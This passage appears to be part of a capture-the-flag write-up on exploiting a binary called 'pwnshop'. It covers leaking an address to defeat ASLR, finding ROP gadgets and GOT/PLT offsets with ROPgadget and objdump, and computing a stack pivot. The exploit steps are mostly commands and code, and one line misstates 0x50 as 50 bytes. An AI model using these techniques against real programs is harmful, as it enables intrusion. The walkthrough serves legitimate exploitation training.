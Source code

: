 ```

0x7fffffffe6b0: 0x0000555555555360 0x4f8b73ff7c1dbc64
```

From the output above the start can be `0x00005555555580c0` then the base memory address can be found by executing the below

```
gef➤ p/x 0x00005555555580c0 -0x00555555554000 

$1 = 0x40c0
```

The offset `0x40c0` can then be used below to find the base address.

```
base_address = leaked_memory_address - 0x40c0
log.success(f'base address: {hex(base_address)}')
```

**Creating The ROP Chain** To create the ROP chain, we need to get the below offsets `pop rdi; ret`

```
ROPgadget --binary pwnshop | grep 'pop rdi'
```

`setvbuf`

```
objdump -M intel -R pwnshop | grep setvbuf
```

`<puts@plt>`

```
objdump -M intel -d pwnshop | grep '<puts@plt>:'
```

After finding the above offsets along with the base address we can formulate them below. You can use them in any exploit script.

```
pop_rdi_ret = base_addr + 0x13c3 setvbuf_got_addr = base_addr + 0x4048 puts_plt_addr = base_addr + 0x1030 
```

**Creating enough space for the ROP chain to be executed in the stack** Execute the below command

```
ROPgadget --binary binary-name | grep rsp
```

If you find something similar to the output below

```
sub rsp, 0x50 ; ret
```

You can grab its offset. The above will create 50 bytes space. Then we can put it together

```
stack_pivot = base_addr + offset
```
